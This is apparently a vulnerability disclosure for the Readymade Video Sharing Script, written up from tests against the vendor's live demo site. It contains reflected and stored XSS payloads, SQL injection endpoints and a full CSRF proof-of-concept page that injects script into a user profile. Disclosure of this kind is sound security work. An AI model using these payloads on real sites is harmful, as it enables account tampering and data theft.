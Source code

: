 ### Readymade Video Sharing Script- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss1.png)

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss3/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss2.png)


##### Stored-XSS 


```
http://www.smsemailmarketing.in/demo/videosharing/user-profile-edit.php
```

POST parameters:

```
------WebKitFormBoundaryb1Z9ur8DUtIWkCxA
Content-Disposition: form-data; name="fname"

lzx'"><svg/onload=alert(/xss2/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss3.png)


#### SQL Injection:

##### sqli1
```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli1.png)

##### sqli2

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=321
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli2.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.smsemailmarketing.in\/demo\/videosharing\/user-profile-edit.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryb1Z9ur8DUtIWkCxA");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"fname\"\r\n" + 
          "\r\n" + 
          "lzx\'\"\x3e\x3csvg/onload=alert(/xss2/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"lname\"\r\n" + 
          "\r\n" + 
          "lzx\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"mobile\"\r\n" + 
          "\r\n" + 
          "1311144111\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"country\"\r\n" + 
          "\r\n" + 
          "17\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"zip_code\"\r\n" + 
          "\r\n" + 
          "123123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr1\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr2\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"profile_image\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Save Profile\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/csrf.png)

